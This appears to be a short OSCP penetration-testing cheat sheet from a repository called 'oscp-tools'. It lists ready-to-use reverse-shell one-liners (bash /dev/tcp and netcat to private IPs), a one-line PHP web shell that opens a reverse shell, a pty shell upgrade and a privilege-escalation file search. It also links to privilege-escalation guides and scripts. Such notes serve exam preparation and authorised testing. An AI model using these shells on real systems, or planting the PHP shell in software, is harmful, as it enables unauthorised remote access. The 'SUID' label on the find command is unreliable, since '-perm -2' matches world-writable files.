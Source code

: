 
Upgrade Your Shellz
python -c 'import pty; pty.spawn("/bin/bash");'

Alternative Shell
bash -i >& /dev/tcp/172.16.1.3/8080 0>&1

nc 172.16.1.2 443

Tiny PHP Shell
<?php exec("/bin/bash -c 'bash -i > &/dev/tcp/172.16.1.2/8081 0>&1'"); ?>



Priv Esc
Find SUID Files in /etc
find /etc -perm -2 -type f 2>/dev/null



# oscp-tools
List of tools and commands used for OSCP

Basic Priv Esc - Commands used in Unix Priv Esc

http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Linux Priv Enum Script

http://www.rebootuser.com/?p=1758

Linux Priv Checker Python Script

http://www.securitysift.com/download/linuxprivchecker.py

Linux Cheet Sheet for Commands

https://www.isical.ac.in/~pdslab/2016/lectures/bash_cheat_sheet.pdf
